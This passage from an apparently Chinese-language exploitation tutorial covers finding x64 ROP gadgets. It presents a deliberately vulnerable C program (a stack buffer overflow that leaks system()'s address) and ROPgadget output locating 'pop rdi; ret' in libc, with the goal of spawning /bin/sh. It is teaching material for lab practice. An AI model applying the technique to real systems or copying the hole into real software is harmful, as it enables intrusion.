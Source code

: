 ## 0x03使用工具寻找gadgets

我们之前提到x86中参数都是保存在栈上,但在x64中前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于pop rdi; ret的这种gadget。如果是简单的gadgets，我们可以通过objdump来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。比较有名的工具有：  

ROPEME: https://github.com/packz/ropeme  
Ropper: https://github.com/sashs/Ropper  
ROPgadget: https://github.com/JonathanSalwan/ROPgadget/tree/master  
rp++: https://github.com/0vercl0k/rp  
这些工具功能上都差不多，找一款自己能用的惯的即可。  

下面我们结合例子来讲解，首先来看一下目标程序level4.c的源码：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译方法：  

`gcc -fno-stack-protector level4.c -o level4 -ldl`  
首先目标程序会打印system()在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发buffer overflow然后利用ROP执行system(“/bin/sh”)。但为了调用system(“/bin/sh”)，我们需要找到一个gadget将rdi的值指向“/bin/sh”的地址。于是我们使用ROPGadget搜索一下level4中所有pop ret的gadgets。  
```
$ ROPgadget --binary level4 --only "pop|ret" 
Gadgets information
============================================================
0x00000000004006d2 : pop rbp ; ret
0x00000000004006d1 : pop rbx ; pop rbp ; ret
0x0000000000400585 : ret
0x0000000000400735 : ret 0xbdb8
```
结果并不理想，因为程序比较小，在目标程序中并不能找到pop rdi; ret这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。  
```
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000001f27d : pop rdi ; pop rbp ; ret
0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
0x0000000000073033 : pop rdi ; pop rbx ; ret
0x0000000000022a12 : pop rdi ; ret
```
这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。  
